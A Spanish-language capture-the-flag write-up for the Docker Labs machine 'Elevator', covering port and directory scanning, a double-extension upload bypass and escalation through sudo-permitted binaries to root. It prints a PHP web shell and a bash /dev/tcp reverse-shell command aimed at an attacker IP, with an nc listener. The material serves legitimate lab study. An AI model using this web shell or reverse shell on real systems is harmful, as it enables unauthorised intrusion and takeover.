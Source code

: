 Primero verificamos si tenemos **ping** de la máquina de **Docker Labs**.
![{226AE468-6785-4450-97C9-DD778D538B7E}](https://github.com/user-attachments/assets/d8f3d4d1-de15-4d8d-8e42-74a401fcc3e0)

Iniciamos la fase de reconocimiento de los puertos de dicha máquina con **NMAP**.
```bash
nmap -p- -sT -sV -A $IP -oN elevator
```
![image](https://github.com/user-attachments/assets/71cb52df-a563-4f30-b629-338de6f946b0)

	Al parecer, solamente tenemos el puerto 80 habilitado. Vamos a proceder a analizar dicha web.

Al parecer, es una simple web que, al presionar el botón **¡Abre el Ascensor!**, muestra una animación y un mensaje que aparece en la pantalla.
![image](https://github.com/user-attachments/assets/5a24029b-c718-4aef-bab5-07fef1ef97aa)
![image](https://github.com/user-attachments/assets/301493da-5523-4f1d-b624-edffdd161fc0)

Siguiendo con la etapa de reconocimiento, vamos a usar **Gobuster** para el reconocimiento de directorios de dicha web.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -b 403,404 -x php,txt,php.bak,bak,tar
```
![image](https://github.com/user-attachments/assets/848edb40-b853-488c-815a-723877351ebd)

También procedemos a realizar el reconocimiento de directorios con **Feroxbuster**.
```bash
feroxbuster -u http://172.17.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -d 10 -t 200 -x php,txt,html,php.bak,bak,tar --status-codes 200
```
![image](https://github.com/user-attachments/assets/1009cbe7-526c-4e7c-a697-c7425620a0e8)

Con **Feroxbuster** encontramos 2 ficheros con extensión **PHP** y **HTML**, los cuales vamos a analizar para proceder a su explotación.

En la ruta `http://172.17.0.2/themes/upload.php` encontramos un fichero que la web está interpretando, pero no visualizamos nada.
![image](https://github.com/user-attachments/assets/3be38251-eb36-4699-893f-29828ac0bb3d)

En la siguiente ruta `http://172.17.0.2/themes/archivo.html` encontramos un apartado donde podemos subir imágenes con extensión JPG.
![image](https://github.com/user-attachments/assets/cf5347b1-1321-4ed2-9cb3-c3a0d15fe563)

Vamos a proceder primero a crear un fichero con la extensión `.php`, por si la web permite subir dicho fichero. Si es así, podemos aprovechar esta vulnerabilidad para ganar acceso a la máquina.
```php
<?php
    system($_GET['cmd'])
?>
```
![image](https://github.com/user-attachments/assets/57d54f62-7969-4ec9-a289-9e174bace3c1)

Procedemos a subir el fichero a la web.
![image](https://github.com/user-attachments/assets/07a53adf-c045-479f-b990-8d25c1feaf38)

Pero al subir nuestro fichero **PHP**, la web no lo permite; solo nos permite subir ficheros con extensión **JPG**.
![image](https://github.com/user-attachments/assets/efa7fbce-9d34-4d45-805c-bf736f166876)

Vamos a realizar el método de doble **"double extension attack"**. Este ataque aprovecha las configuraciones de seguridad de los servidores web que pueden estar configurados para permitir la carga de archivos con ciertas extensiones, como `.jpg`, pero no de otras, como `.php`. 

En este ataque, renombramos el archivo para que tenga una extensión doble, como `reverShell.php.jpg`, lo que engaña al servidor para que lo permita cargar, mientras que el archivo PHP podría ejecutarse al acceder a él.
![image](https://github.com/user-attachments/assets/f455ca75-1e51-4e66-84d9-d5fb934da5da)

Nuevamente probaremos subir el fichero con la extensión doble a la web y verificaremos si nos lo permite.
![image](https://github.com/user-attachments/assets/bbe9063c-8a45-4eea-9acf-80dc2e27bfe2)

**¡Bingo!** Logramos subir nuestro archivo y la web nos proporciona la ruta donde se encuentra ubicado. Procederemos a visualizarlo para comprobar si la web lo interpreta o no.
![image](https://github.com/user-attachments/assets/2221b44c-ae07-442d-a5af-62120f4f741d)

La web interpreta correctamente el archivo malicioso subido por nosotros. 
![image](https://github.com/user-attachments/assets/46ae684c-4649-40b1-a442-b88936f312f6)


Al ejecutar el comando `id`, verificamos la respuesta del comando.
![image](https://github.com/user-attachments/assets/11ca7995-ad4f-42fc-89ce-146fdcb28464)

Ahora vamos a proceder a hacernos una revershell de la siguiente forma

[ * ] Web victima:
`172.17.0.2/themes/uploads/6764f820a0d32.jpg/?cmd=bash -c "bash -i >%26 /dev/tcp/192.168.1.19/443 0>%261"`
![image](https://github.com/user-attachments/assets/5f53a80a-2959-4c82-85b3-b8968da9222d)

[ * ]  Shell Atacante
```bash
nc -nlvp 443
```
![image](https://github.com/user-attachments/assets/c7b2bfde-9d5f-438a-8a1b-ff17d1c0eda6)

¡Bummmmm! Estamos dentro de la máquina, pero como el usuario `www-data`. Vamos a verificar los permisos SUID para verificar si podemos elevar los privilegios por este método.
![image](https://github.com/user-attachments/assets/5649a008-e84e-479d-b29a-b1461df881b0)

Procederemos a realizar el tratamiento de la TTY para establecer una sesión interactiva más estable.
![image](https://github.com/user-attachments/assets/67836fc2-27fc-41ce-b39a-91fd61e2365f)
![image](https://github.com/user-attachments/assets/bfe361cb-be55-47f8-a52a-32f94666d19a)

Lamentablemente no podemos tirar por esta lado.
![image](https://github.com/user-attachments/assets/af283685-a5ed-47ce-a493-be56dcc09527)

Vamos a listar los comandos que el usuario puede ejecutar con privilegios de `root` usando `sudo -l`.
![image](https://github.com/user-attachments/assets/867899f6-d535-4786-ab47-6233e3215063)

	En este caso, no podemos migrar como root, pero sí podemos migrar como el usuario **daphne**, con el cual podemos usar el comando `env`.

Con **GTFOBins**, vamos a buscar el binario `env` y listar los comandos que el usuario puede ejecutar como **daphne**
![image](https://github.com/user-attachments/assets/3f7edfb7-9e27-45c5-9f83-775e4e412702)

Ya estando como el usuario **daphne**, procederemos a listar nuevamente los comandos disponibles para verificar si podemos migrar a otro usuario o escalar privilegios.

Al listar nuevamente, verificamos que podemos migrar al usuario **vilma** usando el comando `ash`.
![image](https://github.com/user-attachments/assets/e61ea684-7c5c-412c-b1b0-74527e308a31)

En **GTFOBins** nos indica cómo migrar, lo cual haremos con una pequeña modificación utilizando el parámetro `-u`, donde indicamos el nombre del usuario al cual vamos a migrar (en este caso, **vilma**).
![image](https://github.com/user-attachments/assets/97e3dc67-8d1e-4751-ac52-5fd09d0e5d6c)
![image](https://github.com/user-attachments/assets/86c4abcf-e0ef-498e-bb60-2caf8f917e79)

Al parecer, la temática es de esta forma. Vamos a listar nuevamente los comandos o posibles configuraciones disponibles para verificar si podemos continuar con la migración

En este caso, podemos migrar al usuario **shaggy** usando el binario de **ruby**. Nos ayudaremos de **GTFOBins**.
![image](https://github.com/user-attachments/assets/fed2f6dc-109c-4696-b67d-9c44c968db5a)
![image](https://github.com/user-attachments/assets/2338ad11-cabf-48d2-a940-cc59dc764925)

Ganamos acceso al usuario shaggy.
![image](https://github.com/user-attachments/assets/694c563b-20fa-402f-9e29-4f4102a2f32b)

Nuevamente, tenemos el binario **lua** para migrar como el usuario **fred**.
![image](https://github.com/user-attachments/assets/c6ba585c-5438-4139-8c4d-8c2fb04727e2)
![image](https://github.com/user-attachments/assets/775abda8-d31e-4632-97b4-4f0221524ce3)

Ahora logramos migrar al usuario **fred**.
![image](https://github.com/user-attachments/assets/b1ebe188-a860-4b66-a728-ceef6b5e84f4)

Para migrar al usuario **scooby**, tenemos que usar el binario **gcc**.
![image](https://github.com/user-attachments/assets/38523977-bfc3-4bf6-bdd8-fb7927a6e0db)
![image](https://github.com/user-attachments/assets/c45a7d93-1344-4aec-849a-7b5e395c48cc)

Logramos migrar al usuario **scooby**. Ahora, vamos a proceder nuevamente a listar.
![image](https://github.com/user-attachments/assets/47b5e7d3-9ef7-4906-95ed-2f59ec0a8a52)

Finalmente, podemos migrar al usuario **root** utilizando el binario **sudo**.
![image](https://github.com/user-attachments/assets/174b93d3-6efb-4009-b5d9-66c7e1dc1372)
![image](https://github.com/user-attachments/assets/1ed27c1e-8aa8-493d-98a3-14880958df35)

# $BLING $BLING SOMOS ~~ROOT~~
![image](https://github.com/user-attachments/assets/027d9ae5-281f-47f4-a943-110c6c318a79)


